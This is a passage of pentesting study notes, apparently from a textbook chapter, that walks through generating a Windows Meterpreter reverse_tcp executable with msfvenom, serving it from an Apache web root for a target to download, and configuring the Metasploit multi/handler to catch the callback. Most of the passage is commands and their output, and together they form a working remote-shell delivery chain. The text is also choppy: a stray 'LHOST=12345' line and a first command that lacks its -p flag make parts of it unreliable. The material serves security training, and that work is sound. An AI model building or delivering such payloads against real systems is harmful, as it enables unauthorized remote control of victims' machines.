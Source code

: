 set the `LHOST` using the option `LHOST=12345`

- choosing the output format

use the command `msfvenom --help-formats` to show the output formats

```
root@kali:~# msfvenom --help-formats
Executable formats
    asp, aspx, aspx-exe, dll, elf, exe, exe-only, exe-service, exe-small,
      loop-vbs, macho, msi, msi-nouac, psh, psh-net, vba, vba-exe, vbs, war
Transform formats
    bash, c, csharp, dw, dword, java, js_be, js_le, num, perl, pl, powershell,
      psl, py, python, raw, rb, ruby, sh, vbapplication, vbscript
```

- selecting the output format

use the `-f` flag to set the output format

```
root@kali:~# msfvenom windows/meterpreter/reverse_tcp LHOST=192.168.20.9 LPORT=12345 -f exe
```

- redirecting the output to a file

```
root@kali:~# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.20.9 LPORT=12345 -f exe > chapter4example.exe
```

There is no output to the screen, but if we run the file command on our newly created executable file, we see that it’s a Windows executable that will run on any Windows system as long as a user attempts to run it.

### Serving Payloads

- upload the payload to the webserver

```
root@kali:~# cp chapter4example.exe /var/www
root@kali:~# service apache2 start
Starting web server apache2
```

browse the target machine and point the browser to the following url to _http://192.168.20.9/chapter4example.exe_ and download the file.

Before executing the file, a handler needs to be configured. 

- using the multi/handler module

allows to set up standalone handlers. We need to catch the meterpreter connection when the malicious executable is executed from the target machine.

- using the multi/handle module

```
msf > use multi/handler
msf  exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf  exploit(handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
```
